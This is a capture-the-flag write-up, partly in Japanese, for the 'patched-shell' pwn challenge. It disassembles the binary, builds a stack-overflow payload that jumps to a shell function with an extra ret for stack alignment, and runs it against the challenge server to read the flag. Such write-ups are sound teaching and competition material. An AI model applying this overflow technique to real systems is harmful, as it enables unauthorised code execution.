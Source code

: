 # patched-shell:Pwn:250pts
Okay, okay. So you were smart enough to do basic overflow huh...  
Now try this challenge! I patched the shell function so it calls system instead of execve... so now your exploit shouldn't work! bwahahahahaha  
Note: due to the copycat nature of this challenge, it suffers from the same bug that was in basic-overflow. see the cryptic message there for more information.  

`nc 34.134.173.142 5000`  
[patched-shell](patched-shell)  

# Solution
execveの代わりにsystemを呼び出しているらしい。  
```bash
$ objdump -D ./patched-shell

./patched-shell:     file format elf64-x86-64
~~~
0000000000401136 <shell>:
  401136:       55                      push   %rbp
  401137:       48 89 e5                mov    %rsp,%rbp
  40113a:       48 8d 05 c3 0e 00 00    lea    0xec3(%rip),%rax        # 402004 <_IO_stdin_used+0x4>
  401141:       48 89 c7                mov    %rax,%rdi
  401144:       e8 e7 fe ff ff          call   401030 <system@plt>
  401149:       90                      nop
  40114a:       5d                      pop    %rbp
  40114b:       c3                      ret

000000000040114c <main>:
  40114c:       55                      push   %rbp
  40114d:       48 89 e5                mov    %rsp,%rbp
  401150:       48 83 ec 40             sub    $0x40,%rsp
  401154:       48 8d 45 c0             lea    -0x40(%rbp),%rax
  401158:       48 89 c7                mov    %rax,%rdi
  40115b:       b8 00 00 00 00          mov    $0x0,%eax
  401160:       e8 db fe ff ff          call   401040 <gets@plt>
  401165:       b8 00 00 00 00          mov    $0x0,%eax
  40116a:       c9                      leave
  40116b:       c3                      ret
~~~
$ (echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x36\x11\x40\x00\x00\x00\x00\x00';cat) | ./patched-shell
whoami
Segmentation fault
```
確かにシェルが取れない。  
おそらくスタックアラインメントだろうと予想し、`ret`を一度挟めばよい。  
```bash
$ (echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x4b\x11\x40\x00\x00\x00\x00\x00\x36\x11\x40\x00\x00\x00\x00\x00';cat) | ./patched-shell
whoami
satoki
```
リモートへ試す。  
```bash
$ (echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x4b\x11\x40\x00\x00\x00\x00\x00\x36\x11\x40\x00\x00\x00\x00\x00';cat) | nc 34.134.173.142 5000
id
uid=1000 gid=1000 groups=1000
ls
flag
run
cat flag
uoftctf{patched_the_wrong_function}
```
flagが得られた。  

## uoftctf{patched_the_wrong_function}
